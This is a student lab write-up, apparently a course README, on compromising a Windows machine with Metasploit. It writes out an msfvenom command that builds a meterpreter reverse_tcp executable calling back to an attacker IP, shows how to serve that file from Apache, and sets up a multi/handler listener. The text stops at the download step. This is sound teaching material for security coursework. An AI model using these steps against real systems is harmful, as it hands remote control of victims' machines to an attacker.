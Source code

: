 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Name : Mohammed ibrahim 
### Reg No : 212223100034

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![if-config](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d81c29e7-4cb2-4989-a4f0-32d0f4dcffa5)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![msfvenom](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a8e477e7-1f5b-4831-a003-ffc199679313)

copy the fun.exe into the apache /var/www/html folder

![cpfunexe](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/edc15bf9-0646-4d77-a7b2-7fbe6adae449)

Start apache server
sudo systemctl apache2 start

![startapache2](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/f2bdb40b-22b8-409e-8295-7cac780eab89)

Check the status of apache2

![status](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d5dca89e-d102-408d-aa25-d60e7e09ff2b)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![usemultihandler](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/31c4d664-f12a-45a9-aa29-e988f03e88e1)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
